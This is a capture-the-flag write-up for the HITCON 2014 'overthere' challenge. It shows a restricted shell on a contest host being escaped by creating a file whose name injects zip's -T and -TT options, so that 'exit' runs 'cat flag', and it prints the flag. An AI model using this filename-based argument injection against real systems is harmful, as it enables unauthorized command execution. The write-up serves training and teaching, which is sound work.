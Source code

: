 # HITCON CTF 2014: overthere

**Category:** Misc.
**Points:** 179
**Description:**

> ```bash
> nc 210.65.11.5 4994
> ```

## Write-up

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.

$
```

Cool, a shell!

```
$ ls -lha
total 120K
drwxrwxrwx    2 2137755712 overthere 4.0K Aug 18 01:01 .
drwx-wx-wx 1270 root       root      108K Aug 18 01:01 ..
-rw-r--r--    1 2137755712 overthere    0 Aug 18 01:01 atdog_said_it's_easy
-rw-r--r--    1 2137755712 overthere   34 Aug 18 01:01 flag

$ help
Command:
	echo, exit, touch, cat, ls
id - return user identity
uname - display information about the system
echo - write arguments to the standard output
touch - change file access and modification times
ls - list directory contents
cat - concatenate and print files
exit - backup your files and exit

$ id
uid=2137755712 gid=1001(overthere)

$ uname
Linux

$ uname -a
Linux ctf 3.13.0-30-generic #54-Ubuntu SMP Mon Jun 9 22:45:01 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Okay, so a lot of things work. However, there are some problems. For example, you can’t directly `cat` a file:

```bash
$ cat flag
Serious? Are you kidding me?!
$ touch test
$ cat test
Serious? Are you kidding me?!
```

Output redirection doesn’t work the way you’d expect it to:

```bash
$ echo test > test
Invalid character.
```

When we type exit we see the following:

```bash
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
Done.

Did you forget to catch the flag?

Bye!
```

We can see that at exit the current working directory is passed as arguments to the `zip` command. Using `touch` to create a new file that will be used as commandline arguments to `exit` seems like a viable option. A good thing to do is to leverage the `-T`/`--test` and `-TT` options of the `zip` command which do the following:

```
-T
--test
    Test the integrity of the new zip file. If the check fails, the old zip file is unchanged and (with the -m option) no input files are removed.

-TT cmd
--unzip-command cmd
    Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used. On Unix, to use a copy of unzip in the current directory instead of the standard system unzip, could use:
    zip archive file1 file2 -T -TT "./unzip -tqq"

    In cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command. The return code is checked for success (0 on Unix).
```

With this we see that we can force the zip archive to be tested and even provide the command to test with. The hard part about this attack is that we need to be able to create a file with the filname of commandline arguments which would normally be processed by `touch` and cause an error as they are not legitimate arguments to the `touch` command. We can remedy this by using the `--` argument which reads in our filename from STDIN instead of literally from the commandline.

Leveraging this information we come up with the following command which allows us to bypass the restriction of running cat directly as well as all other restrictions.

```bash
touch -- -T -TTcat\ flag
```

We run that command and then run `exit` and get the following

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.
$ touch -- -T -TTcat\ flag
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
HITCON{0ld_7rick5_alw4y5_workS!!}
PK
ocEatdog_said_it's_easyUT	���S���Sux
                                          �Z��PK
ocE��atdog_said_it's_easyUT���Sux
                                 �Z��PKZNtest of takeaway.zip OK
Done.

Did you forget to catch the flag?

Bye!
```

The flag is `HITCON{0ld_7rick5_alw4y5_workS!!}`.

## Other write-ups and resources

* <http://givemesecurity.info/2014/08/18/overthere-writeup-hitcon-2014/>
* [Unix Wildcards Gone Wild](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)
* <https://gist.github.com/anthraxx/fe4984780a9f284dee08>
* https://rzhou.org/~ricky/hitcon2014/overthere/
